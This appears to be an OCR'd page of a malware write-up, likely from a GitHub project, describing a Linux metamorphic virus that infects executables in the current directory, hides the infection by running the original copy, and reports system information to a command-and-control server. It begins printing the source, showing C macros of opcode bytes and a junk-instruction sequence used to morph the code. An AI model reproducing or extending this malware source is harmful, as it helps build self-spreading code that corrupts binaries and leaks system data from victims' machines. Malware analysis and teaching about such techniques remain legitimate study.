 Overview:

The core task of this malware is to 
retrieve some information of the 
system, we are speaking of reading and 
sending back to the C2 server, the 
target (OS) is Linux, First activated 
by running the compiled bytecode then 
proceeded to scans the current 
directory and overwrites all 
executable files that have not been 
previously infected with its morphed 
code, Next the original executable is 
run from a file it was copied to 
during the propagation phase to 
disguise the fact that the actual 
executable was infected. Finaly the 
malware will establish a connection 
with C2 & begin collecting basic data 
about the (OS) and close the 
connection hardly anything malicious, 
except exposing your system 
information to unknown future threats 
Source Code 15
The first part we includes a few 
essential libraries. Next we have 
defines for various opcodes. These 
will typically be combined with other 
values to generate a full instruction

```c

#define B_PUSH_RAX ".byte 0x50\n\t" 
#define B_PUSH_RBX ".byte 0x53\n\t"
#define B_POP_RAX ".byte 0x58\n\t"
#define B_POP_RBX ".byte 0x5b\n\t"
  
#define B_NOP ".byte
0x48,0x87,0xc0\n\t"

#define H_PUSH 0x50
#define H_POP 0x58
#define H_NOP_0 0x48
#define H_NOP_1 0x87
#define H_NOP_2 0xC0

  

#define JUNK_ASM __asm__ __volatile__
(B_PUSH_RBX B_PUSH_RAX B_NOP B_NOP
B_POP_RAX B_POP_RBX)

#define JUNKLEN 10

```
JUNK_ASM is a macro that inserts our 
sequence of junk operations anywhere 
we want in the code. it’s initially 
just writing out B_PUSH_ and B_NOP , 
JUNKLEN is the number of NOP in that 
sequence - not the full length of the 
sequence.-
